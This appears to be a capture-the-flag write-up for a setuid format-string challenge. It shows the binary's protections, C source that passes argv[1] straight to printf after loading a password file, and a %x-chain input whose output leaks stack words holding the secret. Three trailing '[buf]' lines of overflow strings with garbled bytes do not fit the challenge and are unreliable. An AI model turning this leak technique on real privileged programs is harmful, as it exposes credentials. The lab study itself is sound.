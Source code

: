```shell

    Challenge informations   /

----------------------------‘

./ch5: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamica
lly linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=b
c45458fd23fb2c00bd069a9755569b89d35640a, not stripped
libc: GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.4) stable release version 2.27.

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPA
TH      Symbols                 FORTIFY         Fortified       Fortifiable  FIL
E
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RU
NPATH   69 Symbols     Yes      0               2       ./ch5

ASLR is OFF

app-systeme-ch5@challenge02:~$
```

```sh
app-systeme-ch5@challenge02:~$ ll
total 28
dr-xr-x---  2 app-systeme-ch5-cracked app-systeme-ch5 4096 May 19  2019 ./
drwxr-xr-x 18 root                    root            4096 Mar 17  2018 ../
-r--------  1 app-systeme-ch5-cracked app-systeme-ch5   14 Feb  8  2012 .passwd
-r--r-----  1 app-systeme-ch5-cracked app-systeme-ch5  507 May 19  2019 Makefile
-r-sr-x---  1 app-systeme-ch5-cracked app-systeme-ch5 7336 May 19  2019 ch5*
-r--r-----  1 app-systeme-ch5-cracked app-systeme-ch5  247 May 25  2015 ch5.c
```

```c
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

```sh
app-systeme-ch5@challenge02:~$ ./ch5 %x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x
20,804b160,804853d,9,bffffd38,b7e1b589,bffffc14,b7fc3000,b7fc3000,804b160,39617044,28293664,6d617045,bf000a64,804861b
app-systeme-ch5@challenge02:~$
```


[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭÞ
[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭÞ
[buf]: 0000000000000000000000000000000000000000ﾭÃ